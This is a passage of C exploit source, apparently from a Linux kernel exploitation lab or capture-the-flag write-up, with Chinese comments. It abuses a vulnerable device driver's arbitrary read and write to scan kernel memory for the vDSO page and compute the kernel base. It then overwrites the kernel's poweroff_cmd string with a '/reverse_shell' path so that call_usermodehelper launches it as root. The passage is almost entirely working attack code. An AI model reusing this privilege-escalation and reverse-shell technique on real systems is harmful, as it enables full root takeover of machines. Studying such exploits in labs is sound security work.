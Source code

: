 ```
    char* data;
};
struct arbWriteNote arbWriteObj;
 
 
//open dev
int openDev(char* pos);
int get_gettimeofday_str_offset();
 
int main(int argc, char *argv[])
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
 
    int devFD;
 
    //open Dev
    char* pos = "/dev/arbWriteModule";
    devFD = openDev(pos);
 
 
    // //set comm[TASK_COMM_LEN]
    // char target[16];
    // strcpy(target,"tryToFindPIG007");
    // prctl(PR_SET_NAME,target);
 
 
   char *buf = (char *)calloc(1,0x1000);
 
 
   int gettimeofday_str_offset = get_gettimeofday_str_offset();
   printf("gettimeofday str in vdso.so offset=0x%x\n",gettimeofday_str_offset);
   size_t vdso_addr = -1;
   for (size_t addr=0xffffffff80000000;addr < 0xffffffffffffefff;addr += 0x1000) {
      //读取一页数据
      arbitrary_read(devFD,0x1000,buf,addr);
      //如果在对应的偏移处，正好是这个字符串，那么我们就能确定当前就是vdso的地址
      //之所以能确定，是因为我们每次读取了0x1000字节数据，也就是1页，而vdso的映射也只是1页
      if (!strcmp(buf+gettimeofday_str_offset,"gettimeofday")) {
         printf("[+]find vdso.so!!\n");
         vdso_addr = addr;
         printf("[+]vdso in kernel addr=0x%lx\n",vdso_addr);
         break;
      }
   }
   if (vdso_addr == -1) {
      printf("[-]can't find vdso.so!!\n");
   }
 
    //计算出kernel基地址
    size_t kernel_base = vdso_addr & 0xffffffffff000000;
    printf("[+]kernel_base=0x%lx\n",kernel_base);
    size_t poweroff_cmd_addr = kernel_base + POWEROFF_CMD;
    printf("[+]poweroff_cmd_addr=0x%lx\n",poweroff_cmd_addr);
    size_t orderly_poweroff_addr = kernel_base + ORDERLY_POWEROFF;
    printf("[+]orderly_poweroff_addr=0x%lx\n",orderly_poweroff_addr);
    size_t prctl_hook_addr = kernel_base + PRCTL_HOOK;
    printf("[+]prctl_hook_addr=0x%lx\n",prctl_hook_addr);
    //反弹shell，执行的二进制文件，由call_usermodehelper来执行，自带root
    char reverse_command[] = "/reverse_shell";
    //修改poweroff_cmd_addr处的字符串为我们需要执行的二进制文件的路径
    arbitrary_write(devFD,strlen(reverse_command),reverse_command,poweroff_cmd_addr);
```
